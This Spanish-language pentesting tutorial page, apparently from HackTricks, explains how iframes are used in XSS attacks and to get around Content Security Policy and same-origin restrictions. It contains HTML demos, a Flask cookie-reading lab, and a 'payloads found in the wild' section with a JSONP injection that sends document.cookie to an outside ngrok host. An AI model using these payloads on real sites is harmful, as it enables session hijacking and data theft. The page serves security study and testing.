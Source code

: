 # Iframes en XSS, CSP y SOP

{{#include ../../banners/hacktricks-training.md}}

## Iframes en XSS

Hay 3 formas de indicar el contenido de una página en un iframe:

- A través de `src` indicando una URL (la URL puede ser de origen cruzado o del mismo origen)
- A través de `src` indicando el contenido usando el protocolo `data:`
- A través de `srcdoc` indicando el contenido

**Accediendo a las variables de Padre e Hijo**
```html
<html>
<script>
var secret = "31337s3cr37t"
</script>

<iframe id="if1" src="http://127.0.1.1:8000/child.html"></iframe>
<iframe id="if2" src="child.html"></iframe>
<iframe
id="if3"
srcdoc="<script>var secret='if3 secret!'; alert(parent.secret)</script>"></iframe>
<iframe
id="if4"
src="data:text/html;charset=utf-8,%3Cscript%3Evar%20secret='if4%20secret!';alert(parent.secret)%3C%2Fscript%3E"></iframe>

<script>
function access_children_vars() {
alert(if1.secret)
alert(if2.secret)
alert(if3.secret)
alert(if4.secret)
}
setTimeout(access_children_vars, 3000)
</script>
</html>
```

```html
<!-- content of child.html -->
<script>
var secret = "child secret"
alert(parent.secret)
</script>
```
Si accedes al html anterior a través de un servidor http (como `python3 -m http.server`), notarás que todos los scripts se ejecutarán (ya que no hay CSP que lo impida). **el padre no podrá acceder a la variable `secret` dentro de ningún iframe** y **solo los iframes if2 e if3 (que se consideran del mismo sitio) pueden acceder al secreto** en la ventana original.\
Nota cómo if4 se considera que tiene origen `null`.

### Iframes con CSP <a href="#iframes_with_csp_40" id="iframes_with_csp_40"></a>

> [!NOTE]
> Por favor, nota cómo en los siguientes bypasses la respuesta a la página enmarcada no contiene ningún encabezado CSP que impida la ejecución de JS.

El valor `self` de `script-src` no permitirá la ejecución del código JS utilizando el protocolo `data:` o el atributo `srcdoc`.\
Sin embargo, incluso el valor `none` del CSP permitirá la ejecución de los iframes que pongan una URL (completa o solo la ruta) en el atributo `src`.\
Por lo tanto, es posible eludir el CSP de una página con:
```html
<html>
<head>
<meta
http-equiv="Content-Security-Policy"
content="script-src 'sha256-iF/bMbiFXal+AAl9tF8N6+KagNWdMlnhLqWkjAocLsk='" />
</head>
<script>
var secret = "31337s3cr37t"
</script>
<iframe id="if1" src="child.html"></iframe>
<iframe id="if2" src="http://127.0.1.1:8000/child.html"></iframe>
<iframe
id="if3"
srcdoc="<script>var secret='if3 secret!'; alert(parent.secret)</script>"></iframe>
<iframe
id="if4"
src="data:text/html;charset=utf-8,%3Cscript%3Evar%20secret='if4%20secret!';alert(parent.secret)%3C%2Fscript%3E"></iframe>
</html>
```
Note cómo el **CSP anterior solo permite la ejecución del script en línea**.\
Sin embargo, **solo se van a ejecutar los scripts `if1` y `if2`, pero solo `if1` podrá acceder al secreto del padre**.

![](<../../images/image (372).png>)

Por lo tanto, es posible **eludir un CSP si puedes subir un archivo JS al servidor y cargarlo a través de un iframe incluso con `script-src 'none'`**. Esto **potencialmente también se puede hacer abusando de un endpoint JSONP de mismo sitio**.

Puedes probar esto con el siguiente escenario donde se roba una cookie incluso con `script-src 'none'`. Simplemente ejecuta la aplicación y accede a ella con tu navegador:
```python
import flask
from flask import Flask
app = Flask(__name__)

@app.route("/")
def index():
resp = flask.Response('<html><iframe id="if1" src="cookie_s.html"></iframe></html>')
resp.headers['Content-Security-Policy'] = "script-src 'self'"
resp.headers['Set-Cookie'] = 'secret=THISISMYSECRET'
return resp

@app.route("/cookie_s.html")
def cookie_s():
return "<script>alert(document.cookie)</script>"

if __name__ == "__main__":
app.run()
```
### Otros Payloads encontrados en la naturaleza <a href="#other_payloads_found_on_the_wild_64" id="other_payloads_found_on_the_wild_64"></a>
```html
<!-- This one requires the data: scheme to be allowed -->
<iframe
srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>
<!-- This one injects JS in a jsonp endppoint -->
<iframe srcdoc='
<script src="/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
<!-- sometimes it can be achieved using defer& async attributes of script within iframe (most of the time in new browser due to SOP it fails but who knows when you are lucky?)-->
<iframe
src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>'></iframe>
```
### Iframe sandbox

El contenido dentro de un iframe puede estar sujeto a restricciones adicionales mediante el uso del atributo `sandbox`. Por defecto, este atributo no se aplica, lo que significa que no hay restricciones en su lugar.

Cuando se utiliza, el atributo `sandbox` impone varias limitaciones:

- El contenido se trata como si proviniera de una fuente única.
- Cualquier intento de enviar formularios es bloqueado.
- La ejecución de scripts está prohibida.
- El acceso a ciertas APIs está deshabilitado.
- Evita que los enlaces interactúen con otros contextos de navegación.
- El uso de plugins a través de `<embed>`, `<object>`, `<applet>` o etiquetas similares está prohibido.
- Se impide que el contenido navegue por el contexto de navegación de nivel superior por sí mismo.
- Las características que se activan automáticamente, como la reproducción de video o el enfoque automático de los controles de formulario, están bloqueadas.

El valor del atributo puede dejarse vacío (`sandbox=""`) para aplicar todas las restricciones mencionadas anteriormente. Alternativamente, puede establecerse en una lista de valores específicos separados por espacios que eximan al iframe de ciertas restricciones.
```html
<iframe src="demo_iframe_sandbox.htm" sandbox></iframe>
```
## Iframes en SOP

Consulta las siguientes páginas:

{{#ref}}
../postmessage-vulnerabilities/bypassing-sop-with-iframes-1.md
{{#endref}}

{{#ref}}
../postmessage-vulnerabilities/bypassing-sop-with-iframes-2.md
{{#endref}}

{{#ref}}
../postmessage-vulnerabilities/blocking-main-page-to-steal-postmessage.md
{{#endref}}

{{#ref}}
../postmessage-vulnerabilities/steal-postmessage-modifying-iframe-location.md
{{#endref}}

{{#include ../../banners/hacktricks-training.md}}

